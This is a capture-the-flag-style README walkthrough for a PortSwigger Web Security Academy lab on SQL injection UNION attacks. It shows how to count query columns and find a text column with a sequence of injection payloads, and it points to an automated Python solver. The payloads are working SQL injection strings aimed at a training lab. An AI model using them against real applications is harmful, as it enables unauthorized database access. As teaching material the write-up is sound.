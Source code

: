 \+ Lab #4    : SQL injection UNION attack, finding a column containing text\
\+ Lab Level : Practitioner\
\+ Link      : https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text \

## About:
This lab contains a [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a previous lab. The next step is to identify a column that is compatible with string data.<br/>

## End Goal: 
Finding a column containing text by performing a [SQL injection UNION attack](https://portswigger.net/web-security/sql-injection/union-attacks)

## Detection: 
* Submit a single quotation mark ```'``` in ```/filter?category=Gifts``` to break out the original SQL query quotation marks and cause an internal error,
* The resulting query sent by the App to the back-end databases should look to something like:
```SQL
SELECT * FROM products WHERE category = 'Gifts''
```
* The App should return a ```500 Internal Server Error```, which means that an error has occured in the back-end database while processing the query.
* The ```category``` parameter is vulnerable to SQL injection.

## Exploitation: 
### Manual: 
> :memo: **Note:** The goal of this lab is to figure out the number of columns returned by the query and then probing each column to test whether it can hold a specific string data, provided in the Lab.<br/>
> To do so, we will incrementally submit a series of ```UNION SELECT``` payloads that place the string value into each column in turn until we no longer get an ```Internal Server Error```. 

#### Determining the number of columns: 
1. Intercept the request with Burp Suite proxy,
2. Send the request to repeater,
3. Start by injecting the ```category``` parameter with ```Gifts'+UNION+SELECT+NULL--``` which will return an error
4. And then ```'UNION+SELECT+NULL,NULL--``` which will also return an error
5. And finally ```'UNION+SELECT+NULL,NULL,NULL--``` which will output the results of the original query <br/>
```SELECT * FROM products WHERE category = 'Gifts'```
> -> The number of columns is then ```3```

#### Finding columns containing text:
1. Copy the string provided in the Lab:
![String Data](https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/Web-Security-Academy/main/SQL%20Injection/Lab%234/2023-02-17%2018_14_48-SQL%20injection%20UNION%20attack%2C%20finding%20a%20column%20containing%20text%20%E2%80%94%20Mozilla%20Firefox.png)
> In this case, the string data is: ```VnoDqj```
2. Start by injecting the ```category``` parameter ```Gifts'+UNION+SELECT+'VnoDqj',NULL,NULL--``` which will return an error. This means that the first column is not a string
3. And then ```Gifts'+UNION+SELECT+NULL,'VnoDqj',NULL--``` which will output the results of the original query and make the database print out ```VnoDqj```. This means that the second column is a string.
4. And finally ```Gifts'+UNION+SELECT+NULL,NULL,'VnoDqj'--``` which will also return an error

> -> The ```second column``` contains string data.

### Automated:
* Refer to https://github.com/YounesTasra-R4z3rSw0rd/Web-Security-Academy/blob/main/SQL%20Injection/Lab%234/Lab-4.py
* Requirements:
```bash
pip3 install -m requirements.txt
```
* Help Menu: 
```bash
$ python3 Lab-4.py --help
usage: Lab-4.py [-h] -u URL [-n]

Usage Example: python3 Lab-4.py --url https://0a2100.web-security-academy.net/ --no-proxy

options:
  -h, --help         show this help message and exit
  -u URL, --url URL  Enter the Lab URL
  -n, --no-proxy     Do not use proxy                               
```
![Lab-4](https://user-images.githubusercontent.com/101610095/220033508-30d31320-3651-4b64-ac7b-fca9ccee1b39.gif)

